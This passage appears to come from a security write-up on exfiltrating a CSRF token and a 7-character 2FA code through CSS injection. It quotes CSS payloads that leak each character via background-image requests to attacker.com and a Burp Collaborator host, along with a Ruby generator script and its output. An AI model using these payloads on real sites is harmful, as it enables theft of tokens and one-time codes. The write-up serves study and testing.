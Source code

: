 ```css
/* https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d */
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

Then, `attacker.com` would load an iframe with this css injection on it on `target.com` . `attacker.com` would then wait for a request to `https://attacker.com/exfil/<data>`. The iframe trick is useful since we can guess one character at a time.

In our case, we cannot do this since there is no way to iframe the app. The thing is, bruteforcing a 7 character 2FA code is not doable if the alphabet is a-zA-Z0-9 since this represent 1,028,071,702,528 combinations.

After some [trials and errors](https://gist.github.com/Techbrunch/82c3691e20a6c754a4f16e93d752cc3e/revisions) I realized that there are actually 7 inputs in the page, one for each character ! This makes the challenge way easier since this requires 364 (52\*7) combinations only !&#x20;

I wrote a small Ruby script to generate all the combinations:

```ruby
(1..7).to_a.each do |ct|
	(('a'..'z').to_a + ('0'..'9').to_a).each do |char|
		puts "input:nth-child(#{ct})[value^=\"#{char}\"] {background:url(\"http://#{ct}-#{char}.lwl3lz48tr50o2qlajeftgkff6lx9m.burpcollaborator.net\");}"
	end

	('A'..'Z').to_a.each do |char|
		puts "input:nth-child(#{ct})[value^=\"#{char}\"] {background:url(\"http://#{ct}-m#{char}.lwl3lz48tr50o2qlajeftgkff6lx9m.burpcollaborator.net\");}"
	end
end
```

!!! info
    We are using [nth-child()](https://developer.mozilla.org/en-US/docs/Web/CSS/:nth-child) to matches the inputs element based on their position since the first character should be the first input.

The output looks like this:

```css
input:nth-child(6)[value^="a"] {background:url("http://1-a.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net");}
/* ... */
input:nth-child(6)[value^="z"] {background:url("http://6-z.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net");}
input:nth-child(6)[value^="0"] {background:url("http://6-0.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net");}
/* ... */
input:nth-child(6)[value^="9"] {background:url("http://6-9.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net");}
input:nth-child(6)[value^="A"] {background:url("http://6-mA.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net");}
/* ... */
input:nth-child(6)[value^="Z"] {background:url("http://6-mZ.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net");}
```
